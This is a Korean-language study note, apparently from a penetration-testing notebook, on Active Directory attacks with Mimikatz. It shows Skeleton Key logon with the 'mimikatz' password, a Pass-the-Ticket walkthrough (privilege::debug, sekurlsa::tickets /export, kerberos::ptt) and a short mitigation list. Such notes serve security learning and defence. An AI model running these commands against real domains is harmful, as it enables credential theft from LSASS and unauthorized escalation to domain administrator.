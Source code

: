 #### **스켈레톤 키 활용**
- 주입 후, 모든 도메인 사용자는 기존 비밀번호 외에 "mimikatz"라는 비밀번호로도 로그인할 수 있습니다.

```powershell(title="스켈레톤 키로 공유 폴더 접근")
# Administrator 계정으로 "mimikatz" 비밀번호를 사용하여 DC의 admin$ 공유 접근
net use \<DC_IP>\admin$ /user:Administrator mimikatz
```

---

### **6. 방어 (Mitigation)**

- **크리덴셜 가드(Credential Guard) 및 LSA 보호:** Windows 10/Server 2016 이상에서 LSASS 메모리 보호 기능을 활성화하여 Mimikatz의 직접적인 메모리 접근을 차단합니다.
- **최소 권한의 원칙:** 모든 계정에 최소한의 필요한 권한만 부여하고, 불필요한 고위 권한 계정의 사용을 제한합니다.
- **다단계 인증(MFA):** Kerberos 인증에 MFA를 적용하여 티켓 탈취만으로는 접근이 불가능하게 만듭니다.
- **정기적인 패치 및 업데이트:** 운영체제 및 Active Directory를 최신 상태로 유지하여 알려진 취약점을 제거합니다.






---

#### Pass the Ticket Overview

티켓 전달은 시스템의 LSASS 메모리에서 TGT를 덤프하여 작동합니다. LSASS(로컬 보안 기관 하위 시스템 서비스)는 Active Directory 서버에 자격 증명을 저장하고 게이트키퍼 역할을 하고 제공된 자격 증명을 수락하거나 거부하기 위해 다른 자격 증명 유형과 함께 Kerberos 티켓을 저장할 수 있는 메모리 프로세스입니다. 
해시를 덤프하는 것처럼 LSASS 메모리에서 Kerberos 티켓을 덤프할 수 있습니다.
mimikatz로 티켓을 덤프하면 도메인 관리자 티켓이 LSASS 메모리에 있는 경우 도메인 관리자를 얻는 데 사용할 수 있는 .kirbi 티켓이 제공됩니다. 
이 공격은 보안되지 않은 도메인 서비스 계정 티켓이 있는 경우 권한 상승 및 측면 이동에 적합합니다. 
이 공격을 통해 도메인 관리자의 티켓을 덤프한 다음 mimikatz PTT 공격을 사용하여 해당 티켓을 가장하여 해당 도메인 관리자 역할을 할 수 있는 경우 도메인 관리자로 에스컬레이션할 수 있습니다. 
기존 티켓을 재사용하는 것과 같은 패스 티켓 공격은 티켓을 생성하거나 파괴하지 않고 도메인의 다른 사용자의 기존 티켓을 재사용하고 해당 티켓을 가장하는 것이라고 생각할 수 있습니다.

![[Pasted image 20250803120602.png]]


```powershell
mimikatz.exe
```

```powershell title="in mimikatz"
privilege::debug
```

```powershell
# 이렇게 하면 모든 .kirbi 티켓이 현재 있는 디렉터리로 내보냄
sekurlsa::tickets /export
```
![[Pasted image 20250803120908.png]]
티켓을 찾을 때 위의 빨간색으로 표시된 것과 같이 krbtgt에서 관리자 티켓을 찾는 것이 좋습니다.

```powershell
kerberos::ptt <ticket>
```
![[Pasted image 20250803120941.png]]
